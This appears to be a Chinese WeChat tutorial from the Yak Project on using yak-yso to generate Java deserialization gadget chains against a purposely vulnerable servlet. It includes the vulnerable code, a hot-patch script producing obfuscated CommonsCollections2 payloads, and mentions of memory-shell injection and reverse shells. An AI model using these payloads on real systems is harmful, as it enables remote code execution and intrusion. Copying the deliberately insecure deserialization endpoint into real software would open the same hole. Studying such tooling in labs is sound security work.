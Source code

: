 #  实战分享：用Yak-yso解决一些常见问题   
原创 Q16G  Yak Project   2024-07-05 17:31  
  
![](/articles/wechat2md-57d4b38fb5fac67b077017855ed50c43.gif)  
  
![](/articles/wechat2md-745a416755959ee18783119465b62896.jpeg)  
  
![](/articles/wechat2md-bb809a5b07aaa14d67aa9464ac9778cc.png)  
  
![](/articles/wechat2md-411aa97907db89f37dc1bb75d15f5690.png)  
![](/articles/wechat2md-e68fa6680255f3e874a3734616fceeeb.png)  
  
有同学常常使用yak-yso  
生成的时候，不关注java版本而使用了默认的（默认52  
也就是JDK1.8），会导致有些情况下，某些链子打不通的情况。（原因是：当版本进行升级的时候，有些内置函数、方法、接口都会做出改变）  
  
  
![](/articles/wechat2md-ce2201e6bb465e89a94d933943830f34.png)  
  
  
  
![](/articles/wechat2md-90238dcf9bbca5ac713633a8e479d9e3.png)  
![](/articles/wechat2md-22d138f36c4ce22aa8d876098fceb88b.png)  
  
  
yak-yso中内置了两种模式的反序列化链(漏洞点为反序列化的漏洞。以shiro为例)  
和 恶意类加载(漏洞点为类加载的漏洞。这里就以fastjson为例)  
   
。  
> 而yak-yso还可以yak中的反连平台  
、webFuzzer  
进行同步使用  
  
  
  
下面就用一个小的靶场demo来进行简单说明  
  
  
  
![](/articles/wechat2md-36dad18c85659d1009f470e2b5c85e08.png)  

#### 测试环境  

（1）启动tomcat
（2）导入maven（需要导入cc依赖）

    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>

（3）编写一个入口，如下 大致的意思为 request body的内容进行反序列化

    package com.example.Controller;
    
    import javax.servlet.*;
    import javax.servlet.http.*;
    import javax.servlet.annotation.*;
    import java.io.IOException;
    import java.io.ObjectInputStream;
    
    @WebServlet(name = "HelloServlet", value = "/api/HelloServlet")
    public class HelloServlet extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            ObjectInputStream objectInputStream = new ObjectInputStream(request.getInputStream());
            try {
                objectInputStream.readObject();
            } catch (ClassNotFoundException e) {
                throw new RuntimeException(e);
            } finally {
                objectInputStream.close();
            }
        }
    
        @Override
        protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            response.getWriter().write("hello");
        }
    }

#### Yak-yso-attack  
  
##### 具体使用：  
  
这里就以urldns  
为例，使用yak-yso  
生成cc2-dnslog，我们可以配合yak中内置的dnslog来进行测试。我们发送数据包就可以成功进行复现。如图  
  
  
![](/articles/wechat2md-2a0714f68574639eac77d694e179376a.png)  
  
  
![](/articles/wechat2md-aac3ec3603d73c76e89be3da42da27f6.png)  
> 这里不仅限于使用dnslog，还可以启动反连服务器来进行漏洞验证。  
  
  
#####   
##### 内存加载恶意类  
  
  
我们可以通过TemplateImplClassloader  
来进行类的内存加载，我们可以通过yak-yso不使用调用链的模式来生成恶意类，然后通过反序列化链进行加载，同时我们也可以生成通过类加载来注入内存马。  
> 当进行类加载的时候，java  
默认同一类加载一次，而yak-yso  
生成时候是同名的，所以有可能会出现二次加载不成功的问题，所以，类加载的时候要时刻注意名称的问题。  
  
  
  
我们这里以加载恶意类为例，可以用yso  
来生成恶意类，以RuntimeExec为例，输出为base64  
  
  
![](/articles/wechat2md-ecb90066e01ffcacc0126f5ab8a1abda.png)  
  
我们在选择利用链，使用cc2-->TemplateImplClassLoader  
 将base64恶意类填入生成hex  
然后发包即可。  
  
##### 和webfuzzer进行联动  
  
上面每次发送都需要  生成-->填入参数-->.....  
 每次都需要经历重复性的操作，是非常繁琐的。可以使用web-fuzzer的热加载来完成。  
> 热加载文档(https://yaklang.io/products/Web%20Fuzzer/fuzz-hotpatch)  
  
  
  
我们只需要在热加载中用yak语言来进行编写代码即可。  
> 当返回是一个数组的时候， Web Fuzzer 会将数组中的每一个元素都作为值去发包。所以要转成hex然后再进行解码  
  
  
  
  
![](/articles/wechat2md-3720deb7be979b813b3d5c85dc4ec93f.png)  
```
handle = func(domain) {    gadgetObj = yso.GetGadget("CommonsCollections2",yso.useTemplate("DNSLog"),yso.obfuscationClassConstantPool(),yso.evilClassName("AaZszFvX"),yso.majorVersion(52),yso.useClassParam("domain",domain))~gadgetBytes = yso.ToBytes(gadgetObj,yso.dirtyDataLength(0))~return codec.EncodeToHex(gadgetBytes)}
handle = func(domain) {
    gadgetObj = yso.GetGadget("CommonsCollections2",yso.useTemplate("DNSLog"),yso.obfuscationClassConstantPool(),yso.evilClassName("AaZszFvX"),yso.majorVersion(52),yso.useClassParam("domain",domain))~
gadgetBytes = yso.ToBytes(gadgetObj,yso.dirtyDataLength(0))~
return codec.EncodeToHex(gadgetBytes)
}
```  
  
![](/articles/wechat2md-8db572706c6c0baccb9ef3efbb24bca6.png)  
- shiro漏洞修改max-header(使用yak-yso中ModifyTomcatMaxHeaderSize  
来填入要修改header头的大小来进行修改)  
  
- 反弹shell（yak-yso中tcp-reverse）  
  
- 命令执行  
  
  
  
  
  
  
**END**  
  
  
 **更新记录**  
  
**Yaklang 1.3.4-beta7**  
  
  
在此版本中，我们引入了多项增强功能和重要修复，提升了系统的稳定性和性能，同时扩展了一些关键功能。以下是本次发布的主要亮点：  
  
  
**新特性**  
  
- SyntaxFlow 增强：新增 `alert-for` 语句，以及支持严格模式的选项，增强了 SyntaxFlow 的表达能力，新增了 ... 运算符可以自动寻找链式调用，同时修复了若干 SyntaxFlow 的 Bug  
  
- 泛型函数支持：增加了对泛型函数的支持，允许在使用库函数时应用泛型类型。  
  
- WebSocket 改进：对 WebSocket 进行了优化，增加了压缩处理和消息处理的严格模式。  
  
- YAK URL 文件监控：引入 YAK URL 文件监控功能，增强了文件状态的监控能力。  
  
- 新增 CLI 命令：create-syntax flow csf**：为创建 SyntaxFlow 配置文件增加了新的 CLI 命令，提高了用户交互效率。  
  
  
**性能优化**  
  
- 数据库操作优化：改进了数据库操作时的频率控制逻辑，确保在高频操作场景下数据库的稳定性。  
  
- 镜像处理优化：修复了 MITM 镜像处理中的并发问题，现在镜像操作将以协程方式运行，提高了处理效率。  
  
  
**修复**  
  
- SSA 分析修复：修复了静态安全分析中的若干问题，包括泛型函数处理错误和类型比较错误。  
  
- HTTP 模板修复：解决了 HTTP 模板中脚本名称和 UUID 添加错误的问题。  
  
- 低级 HTTP 处理：优化并修复了低级 HTTP 处理中的数据截断和字符集识别的一个特殊问题，提升了识别精准度。  
  
  
 **YAK官方资源**  
  
  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit 视频教程：  
https://space.bilibili.com/437503777Github下载地址：  
https://github.com/yaklang/yakitYakit官网下载地址：  
https://yaklang.com/Yakit安装文档：  
https://yaklang.com/products/download_and_installYakit使用文档：  
https://yaklang.com/products/intro/常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-6eb00bc28fd5af728c4ba61a04026b5b.png)  
  
![](/articles/wechat2md-304b45488320344b4c7cdbd5759ee4e8.gif)  
  
  
